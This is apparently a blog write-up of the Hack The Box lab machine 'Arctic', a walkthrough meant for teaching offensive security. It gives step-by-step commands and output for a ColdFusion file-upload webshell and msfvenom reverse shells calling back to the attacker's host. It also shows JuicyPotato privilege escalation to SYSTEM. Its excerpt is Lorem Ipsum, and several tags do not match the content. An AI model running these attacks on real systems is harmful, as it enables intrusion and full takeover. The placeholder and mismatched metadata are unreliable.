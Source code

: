 ```yaml
---
layout: single
title: Arctic - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-arctic/arctic_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-arctic/arctic_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:~]# nmap -Pn -n -sCV 10.10.10.11 --open
    PORT      STATE SERVICE VERSION
    135/tcp   open  msrpc   Microsoft Windows RPC
    8500/tcp  open  fmtp?
    49154/tcp open  msrpc   Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


  RPCCLIENT:
    -U "" = timeout


2. The port 8500 is unknown to me, so googling about it and I found a TCP port list, showing exploits from Shadowbrokers.
   Port 8500 is assigned for 'ColdFusion Macromedia/Adobe ColdFusion default Webserver port'.

   Continue to google about ColdFusion exploits and I find a python upload script, made by Arrexel from HTB.

    [root:/git/htb/arctic]# python coldFusion.py 10.10.10.11 8500 cmd.jsp                                                             (master✱)
      Sending payload...
      Successfully uploaded payload!
      Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp

    Command: whoami
      arctic\tolis

  The webshell is to unstable, so instead create a reverse payload to create a reverse shell.
    [root:/git/htb/arctic]# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=4488 -f raw > payload.jsp                   (master✱)
      Payload size: 1496 bytes

    [root:/git/htb/arctic]# python coldFusion.py 10.10.10.11 8500 payload.jsp                                                         (master✱)
      Sending payload...
      Successfully uploaded payload!
      Find it at http://10.10.10.11:8500/userfiles/file/payload.jsp

    [root:/git/htb/arctic]# rlwrap nc -lvnp 4488                                                                                      (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49214
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:\ColdFusion8\runtime\bin> whoami
        arctic\tolis

      C:\Users\tolis\Desktop> type user.txt
        02650d3a69a70780c302e146a6cb96f3


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Check privs to see if we can abuse them.

  C:\Users\tolis\Desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                               State
    ============================= ========================================= ========
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege       Create global objects                     Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

  We got 'SeImpersonatePrivilege', and since it's a 2008 machine JuicyPotato is allways an option.

  Start by creating your reverse payload:
    [root:/srv/pub-share]# msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.8 lport=4499 > arctic-privesc.bat
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: cmd from the payload
      No encoder specified, outputting raw payload
      Payload size: 1583 bytes

  Setup a SMB Server and copy JuicyPotato and .bat-file to the victim:
    [root:/srv/pub-share]# smbserver.py share .

    C:\tmp> copy \\10.10.14.8\share\JuicyPotato.exe .
            1 file(s) copied
    C:\tmp> copy \\10.10.14.8\share\arctic-privesc.bat .
            1 file(s) copied.

  Execute the exploit:
    C:\tmp> JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c C:\tmp\arctic-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
      Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1444
      ....
      [+] authresult 0
      {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

      [+] CreateProcessWithTokenW OK


    [root:/git/htb/arctic]# rlwrap nc -lvnp 4499                                                                                      (master✱)
      listening on [any] 4499 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49269
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:\Windows/System32> whoami
        nt authority\system

      C:\Users\Administrator\Desktop> type root.txt
        ce65ceee66b2b5ebaff07e50508ffb90



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


Shadowbrokers port list:
  https://github.com/DonnchaC/shadowbrokers-exploits/blob/master/windows/Resources/Ep/Scripts/tcp_ports.txt

ColdFusion file upload:
  https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload
